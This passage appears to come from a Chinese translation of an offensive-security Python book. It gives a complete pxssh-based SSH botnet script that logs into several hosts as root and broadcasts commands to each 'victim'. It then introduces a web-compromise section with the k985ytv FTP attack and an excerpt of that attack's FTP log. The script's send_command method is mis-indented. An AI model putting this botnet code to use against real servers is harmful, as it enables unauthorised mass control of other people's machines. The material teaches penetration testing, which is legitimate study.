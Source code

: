 ```py
# coding=UTF-8
import optparse
import pxssh
class Client:
    def __init__(self, host, user, password):
        self.host = host
        self.user = user
        self.password = password
        self.session = self.connect()
    def connect(self):
        try:
            s = pxssh.pxssh()
            s.login(self.host, self.user, self.password)
            return s
        except Exception as e:
            print(e)
            print('[-] Error Connecting')
    def send_command(self, cmd):
    self.session.sendline(cmd)
    self.session.prompt()
    return self.session.before
def botnetCommand(command):
    for client in botNet:
        output = client.send_command(command)
        print('[*] Output from ' + client.host)
        print('[+] ' + output + '\n')
def addClient(host, user, password):
    client = Client(host, user, password)
    botNet.append(client)
botNet = []
addClient('10.10.10.110', 'root', 'toor')
addClient('10.10.10.120', 'root', 'toor')
addClient('10.10.10.130', 'root', 'toor')
botnetCommand('uname -v')
botnetCommand('cat /etc/issue') 
```

通过包装前面的内容，我们得到了我们最后的僵尸网络的脚本。这提供了一个极好的控制大量主机的方法。为了测试，我们生成了 3 台 Backtrack5 的虚拟主机作为目标。我们可以看到我们的脚本遍历三台主机并发送命令给每个受害者。SSH 僵尸网络的生成脚本是直接攻击服务器。下一节我们集中在间接攻击向量位目标，通过脆弱的服务器和另一种方法建立一个集体感染。

## 通过 FTP 连接 WEB 来渗透

在最近的一次巨大的损害中，被称为 k985ytv 的攻击者，使用匿名和盗用的 FTP 凭证，获得了 22400 个域名和 536000 被感染的页面。利用授权访问，攻击者注入 Javascript 代码，使好的首页重定向到乌克兰境内的恶意页面。一旦受感染的服务器被重定向到恶意的网站，恶意的主机将会在受害者电脑中安装假冒的防病毒软件，并窃取受害者的信用卡信息。K985ytv 的攻击取得了巨大的成功。在下面的章节中，我们将用 Python 来建立这种攻击。

检查受感染服务器的 FTP 日志，我们看看到底发什么什么事。一个自动的脚本连接到目标主机以确认它是否包含一个名为`index.htm`的默认主页。接下来攻击者上传了一个新的`index.htm`页面，可能包含恶意的重定向脚本。受感染的服务器渗透利用任何访问它页面的脆弱客户机。

```py
204.12.252.138 UNKNOWN u47973886 [14/Aug/2011:23:19:27 -0500] "LIST /
    folderthis/folderthat/" 226 1862
204.12.252.138 UNKNOWN u47973886 [14/Aug/2011:23:19:27 -0500] "TYPE I"
    200 -
204.12.252.138 UNKNOWN u47973886 [14/Aug/2011:23:19:27 -0500] "PASV"
    227 -
204.12.252.138 UNKNOWN u47973886 [14/Aug/2011:23:19:27 -0500] "SIZE
    index.htm" 213 -
204.12.252.138 UNKNOWN u47973886 [14/Aug/2011:23:19:27 -0500] "RETR
    index.htm" 226 2573
204.12.252.138 UNKNOWN u47973886 [14/Aug/2011:23:19:27 -0500] "TYPE I"
    200 -
204.12.252.138 UNKNOWN u47973886 [14/Aug/2011:23:19:27 -0500] "PASV"
    227 -
```